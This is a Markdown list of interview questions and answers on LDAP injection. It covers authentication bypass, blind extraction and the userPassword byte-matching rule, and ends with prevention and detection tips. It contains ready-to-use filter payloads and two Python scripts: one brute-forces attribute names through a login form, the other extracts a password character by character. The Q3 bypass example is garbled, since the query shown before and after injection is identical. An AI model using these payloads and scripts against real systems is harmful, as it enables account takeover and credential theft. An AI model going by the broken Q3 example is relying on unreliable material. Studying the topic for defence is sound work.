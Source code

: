 # Advanced Interview Questions on LDAP Injection

## 1. What is LDAP Injection and how does it pose a security threat to web applications?

**Answer**: LDAP Injection is an attack that exploits web applications constructing LDAP statements based on user input. When an application fails to properly sanitize user input, it is possible to modify LDAP statements using a local proxy. This can lead to unauthorized access to sensitive data, bypassing authentication mechanisms, and potentially executing arbitrary commands within the LDAP server.

---

## 2. Describe the methodology used to perform LDAP Injection attacks.

**Answer**: The methodology for LDAP Injection involves manipulating user-supplied input to alter LDAP queries. This includes:
1. Identifying input fields that are used in LDAP queries.
2. Attempting to inject special characters and operators to manipulate the query logic.
3. Using techniques like authentication bypass, blind exploitation, and exploiting default attributes to achieve the desired outcome.
4. Crafting specific payloads to test for vulnerabilities and retrieve sensitive information.

---

## 3. Explain how authentication bypass can be achieved using LDAP Injection with an example.

**Answer**: Authentication bypass using LDAP Injection can be achieved by manipulating the filter logic to include always-true conditions. For example, consider the following query:

```ldap
(&(uid=admin)(!(1=0)(userPassword=q)))
```

By injecting `admin)(!(&(1=0` as the username, the query becomes:

```ldap
(&(uid=admin)(!(1=0)(userPassword=q)))
```

This always evaluates to true, effectively bypassing the authentication check.

---

## 4. What is Blind LDAP Injection and how can it be exploited?

**Answer**: Blind LDAP Injection is a technique where attackers exploit LDAP vulnerabilities without directly seeing the results of their queries. Instead, they rely on the application's different responses to crafted queries. This can be used to perform binary search or character-based brute-forcing to discover sensitive information like passwords. For example:

```ldap
(&(sn=administrator)(password=M*))
```

If this query returns true, the attacker knows the password starts with 'M'. They can continue refining their search to discover the full password.

---

## 5. List some default attributes commonly targeted in LDAP Injection attacks and explain their significance.

**Answer**: Commonly targeted default attributes in LDAP Injection attacks include:
- `userPassword`: Stores user passwords.
- `surname`: User's surname (last name).
- `name`: User's full name.
- `cn`: Common name.
- `sn`: Surname.
- `objectClass`: Defines the schema for the object.
- `mail`: User's email address.
- `givenName`: User's given (first) name.
- `commonName`: User's common name.

These attributes are significant because they can be used to manipulate LDAP queries and retrieve sensitive information.

---

## 6. How can the userPassword attribute be exploited in LDAP Injection attacks?

**Answer**: The `userPassword` attribute in LDAP is an OCTET STRING, meaning it is stored as a sequence of bytes. Exploiting this attribute involves using the `octetStringOrderingMatch` rule (OID 2.5.13.18) to perform a bit-by-bit comparison. For example:

```ldap
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

This allows the attacker to compare specific bytes in the password and incrementally discover the full password.

---

## 7. Provide an example of a Python script to discover valid LDAP fields through injection.

**Answer**:
```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://URL.com/'
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'})  #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

This script iterates through a list of potential LDAP fields, injecting each one into the query, and checks if the condition is true to identify valid fields.

---

## 8. Explain how blind LDAP Injection can be automated to discover sensitive information, with an example.

**Answer**: Blind LDAP Injection can be automated using scripts that iterate through possible characters and positions, checking for true conditions. Here's an example using Python:

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

This script iterates through possible characters, appending each one to the flag if the condition is true, gradually building the sensitive information (e.g., password).

---

## 9. What are some effective ways to prevent LDAP Injection vulnerabilities in web applications?

**Answer**: To prevent LDAP Injection vulnerabilities, developers should:
- Properly sanitize and escape user input before including it in LDAP queries.
- Use parameterized queries or prepared statements to separate data from code.
- Implement input validation to ensure only expected values are accepted.
- Use security libraries and frameworks that provide built-in protection against injection attacks.
- Regularly review and update the code to address potential vulnerabilities.

---

## 10. How can LDAP Injection be detected during security testing?

**Answer**: LDAP Injection can be detected during security testing by:
- Using automated scanners to identify potential injection points.
- Manually testing input fields with crafted payloads to observe unexpected behavior.
- Reviewing application logs for signs of injection attempts.
- Performing code reviews to identify improper input handling and query construction.
- Implementing unit tests to check for injection vulnerabilities during development.

---
